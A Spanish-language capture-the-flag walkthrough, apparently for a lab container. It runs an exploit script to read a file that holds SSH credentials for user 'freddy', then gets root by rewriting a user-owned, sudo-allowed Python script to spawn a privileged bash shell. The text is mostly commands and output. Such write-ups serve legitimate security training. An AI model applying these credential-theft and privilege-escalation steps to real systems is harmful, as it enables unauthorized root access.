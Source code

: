 Usuario -> **freddy**

   ```bash
   
/usr/local/bin/python3 50581.py -H http://172.17.0.2:3000
Read file > /tmp/pass.txt
t9sH76gpQ82UFeZ3GXZS

```

Contra -> **t9sH76gpQ82UFeZ3GXZS**

Probando : son las credenciales de ssh, entramos como freddy

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
┌──(freddy㉿ae2e95c48f16)-[/opt]
└─$ sudo -l
Matching Defaults entries for freddy on ae2e95c48f16:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on ae2e95c48f16:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Vemos **/opt/maintenance.py** con permisos SUDO. Es nuestro el archivo, cambiamos permisos y contenido y lo ejecutamos con sudo:

   ```bash
┌──(freddy㉿ae2e95c48f16)-[/opt]
└─$ ls -la
total 12
drwxrwxrwx 1 root   root   4096 Mar 29  2024 .
drwxr-xr-x 1 root   root   4096 Dec  4 10:12 ..
-rw-r--r-- 1 freddy freddy   35 Mar 29  2024 maintenance.py

┌──(freddy㉿ae2e95c48f16)-[/opt]
└─$ chmod 777 maintenance.py 

┌──(freddy㉿ae2e95c48f16)-[/opt]
└─$ nano maintenance.py 

┌──(freddy㉿ae2e95c48f16)-[/opt]
└─$ cat maintenance.py 
import os

os.execv("/bin/bash",["-p"])

┌──(freddy㉿ae2e95c48f16)-[/opt]
└─$ sudo /usr/bin/python3 /opt/maintenance.py 
┏━(Message from Kali developers)
┃
┃ This is a minimal installation of Kali Linux, you likely
┃ want to install supplementary tools. Learn how:
┃ ⇒ https://www.kali.org/docs/troubleshooting/common-minimum-setup/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
┌──(root㉿ae2e95c48f16)-[/opt]
└─# whoami                                                                                                                                                             
root

┌──(root㉿ae2e95c48f16)-[/opt]
   ```